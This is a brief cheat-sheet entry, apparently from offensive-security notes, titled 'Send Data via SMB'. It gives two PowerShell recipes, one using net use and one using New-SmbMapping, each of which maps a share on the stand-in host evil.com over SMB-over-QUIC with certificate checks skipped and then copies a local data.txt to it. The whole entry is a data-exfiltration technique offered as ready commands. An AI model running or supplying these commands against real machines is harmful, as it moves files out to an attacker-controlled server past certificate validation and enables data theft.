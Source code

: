 # Send Data via SMB

- Net

    ```powershell
    net use * "\\evil.com\shared_folder" / TRANSPORT:QUIC /SKIPCERTCHECK
    copy ".\data.txt" "Z:\data.txt"
    ```

- New-SmbMapping

    ```powershell
    New-SmbMapping -RemotePath "\\evil.com\shared_folder" -TransportType QUIC -SkipCertificateCheck
    copy ".\data.txt" "Z:\data.txt"
    ```
